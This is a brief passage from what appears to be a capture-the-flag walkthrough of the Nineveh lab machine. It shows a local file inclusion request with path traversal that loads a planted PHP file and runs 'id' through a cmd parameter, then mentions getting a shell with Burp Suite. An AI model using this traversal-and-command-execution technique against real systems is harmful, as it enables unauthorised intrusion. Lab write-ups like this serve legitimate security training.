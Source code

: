 Using this LFI then am able to get information.

```sh
department/manage.php?notes=/ninevehNotes/../var/tmp/leshack.php&cmd=id
```

![](/Linux/Linux-Medium/Nineveh/Screenshots/consruction.png)

To get a shell, I’ll just execute the shell from the `cmd` but let me start first burpsuite

![](/Linux/Linux-Medium/Nineveh/Screenshots/burpsuite.png)
